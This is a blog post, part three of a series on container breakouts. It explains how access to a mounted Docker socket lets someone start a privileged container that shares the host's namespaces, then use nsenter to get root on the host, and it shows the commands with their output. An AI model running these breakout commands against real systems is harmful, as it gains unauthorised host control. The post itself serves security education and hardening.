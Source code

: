 ```yaml
---
title: "Container Breakouts – Part 3: Docker Socket"
date: 2020-06-29T11:56:35+02:00
draft: true
tags:
- docker
- breakout
- security
---
```



This post is part of a series and shows container breakout techniques that can be performed if a container is started with a mounted Docker socket inside the container.

<!--more-->

The following posts are part of the series:
- [Part 1: Access to root directory of the Host](../container-breakouts-part1)
- [Part 2: Privileged Container](../container-breakouts-part2)
- Part 3: Docker Socket

## Intro

You may have read for certain container deployments that it is absolutely necessary to link the socket into the container, but what are the implications? That is exactly what we are going to discuss in the last blog post in the series about container breakouts. 

## Docker Socket

You know, every time you have **access to the Docker Socket** (default location: `/var/run/docker.sock`) it **means** that you are **root on the host**. Here should be mentioned that it might be the case that you are not root on the system, if docker is used root-less. Some containerized applications may need access to the socket, e.g., for observation or local system management.

You have read correctly, local system management. As soon you have **access to** the **socket**, you can **manage** the local **system**. Okay, first at all, you can manage containers and these containers can afterward manage the system. 

So if you want to escalate from the container to the system, you can **interact** with the **Docker Socket manually or** just simple **install Docker** (on ubuntu: `sudo apt update && sudo apt install -y docker.io`) in the container. What the next step? Exactly, start a further container. 
### Known Techniques

First at all I will start with a short re-cap. We can start containers with the root directory mounted into the container. To do so, one must run the following command and continue reading with [Part 1](../container-breakouts-part1) of this series.

```
# docker run --rm -it -v/:/hostfs ubuntu bash
root@95bc051624b9:/# 
``` 

The alternative would be to start a privileged container. This privileged container can interact with the kernel without limitations. To do so, one must run the following command and continue reading with [Part 2](../container-breakouts-part2) of this series.

```
# docker run --rm --privileged -it ubuntu bash   
root@aad2c9378900:/#
```

These steps are a bit obvious, but explain what hove done wrong in the other cases

### Dropping Namespace Boundaries

As we can take from the amazing artwork by [Julia Evans](https://twitter.com/b0rk) and we already know that containerization is done by the use of Linux namespaces (details can be found in the man page `man namespaces`).
 
![container namespaces](../../images/container-ns.jpeg " Container namespaces by [Julia Evans](https://twitter.com/b0rk)")

To get details about which namespace is assigned to a process, we can take this information out of the `proc` filesystem (for each process `ls -l /proc/self/ns/`). The following namespaces are created for the start of a new container in the default configuration:
- inter process communication (`ipc`)
- mount (`mnt`)
- network (`net`)
- process id (`pid`)
- hostname (`uts`)

The [CIS Docker Benchmark](https://www.cisecurity.org/benchmark/docker/) recommends as well to configure docker in a way to spawn an own user namespace (`uid`).

If we want to break out of the container to get full system access we **start** a new **container with all (possible) namespaces** from the host via the docker socket. Only the `mnt` namespace cannot be set at container startup. Since we start our container **privileged**, there is no seccomp filter in place and we can use `nsenter` to **switch** to **mount namespace** of the `init` process.

```
# ls -l /proc/self/ns/
total 0
lrwxrwxrwx 1 user user 0 Jul 15 09:02 cgroup -> 'cgroup:[4026531835]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 ipc -> 'ipc:[4026532376]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 mnt -> 'mnt:[4026532374]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 net -> 'net:[4026532379]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 pid -> 'pid:[4026532377]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 pid_for_children -> 'pid:[4026532377]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 user -> 'user:[4026531837]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 uts -> 'uts:[4026532375]'

# docker run --rm -it --privileged --network host --pid host --ipc host --uts host ubuntu  bash

root@arch:/# nsenter -t 1 -m

[root@arch /]# ls -l /proc/self/ns/
total 0
lrwxrwxrwx 1 root root 0 15. Jul 11:34 cgroup -> 'cgroup:[4026531835]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 ipc -> 'ipc:[4026531839]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 mnt -> 'mnt:[4026531840]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 net -> 'net:[4026531992]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 pid -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 pid_for_children -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 user -> 'user:[4026531837]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 uts -> 'uts:[4026531838]'

[root@arch /]# ls -l /proc/1/ns/
total 0
lrwxrwxrwx 1 root root 0 15. Jul 11:03 cgroup -> 'cgroup:[4026531835]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 ipc -> 'ipc:[4026531839]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 mnt -> 'mnt:[4026531840]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 net -> 'net:[4026531992]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 pid -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 pid_for_children -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 user -> 'user:[4026531837]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 uts -> 'uts:[4026531838]'

```

We can now behave as a user `root` with full access to the host system. 

## Conclusion

The final breakout technique was a bit more detailed about what docker does under the hood to secure containers. But, if you are root and can interact with the socket, there are no limitations. The last approach is the most OpSec-safe approach for easy container break out techniques.  

The listed container breakouts are in my humble opinion the most relevant one. The list is for sure not complete and as soon as I identify another important one, I will update, extend, and re-organize the content. 

I hope you enjoyed my little series and I am looking forward to if one of you has some ideas for extending container breakouts.

## Remarks

The list of proposed techniques is not complete and is mainly based on insecure container management. To name a few previous container breakouts that are based on vulnerabilities in docker here is a list to get an idea:

- [CVE-2019-5736: Escape from Docker and Kubernetes containers to root on host](https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html)
- [Docker Patched the Most Severe Copy Vulnerability to Date With CVE-2019-14271](https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/)

At the end of writing, I realized that [Jesse Hertz](mailto:jesse.hertz@nccgroup.trust) from [NCC Group](https://www.nccgroup.com/) has released [Abusing Privileged and Unprivileged Linux Containers]( https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container_whitepaper.pdf) which is an even more comprehensive collection to breakout of a container. A collection of tools that test for container breakouts have been collected by [Clint Gibler](https://twitter.com/clintgibler) in [Container Security – A collection of container security resources and tools, organized by category](https://tldrsec.com/blog/container-security/).

The focus of this series was on the operating system level. Nowadays containers are managed and orchestrated in a cluster environment by [Kubernetes](https://kubernetes.io/) or [Nomad](https://www.nomadproject.io/) to name at least two. Even the whole cloud stack is kept out of this series. These two areas will be addressed in another series.

## Final words

Since I am only a consumer of already existing research I want to give out a big thanks for sharing the knowledge that I have consumed in the past years from:

- [Brad Geesaman](https://twitter.com/bradgeesaman)
- [Chris Le Roy](https://twitter.com/brompwnie)
- [Clint Gibler](https://twitter.com/clintgibler) 
- [Duffie Cooley](https://twitter.com/mauilion)
- [Ian Coldwater](https://twitter.com/IanColdwater)
- [Jessie Frazelle](https://twitter.com/jessfraz)
- [Mark Manning](https://twitter.com/antitree) 
- [Matthias Luft](https://twitter.com/uchi_mata) 
- [Rory McCune](https://twitter.com/raesene)

To name a few – you are awesome – please continue !!


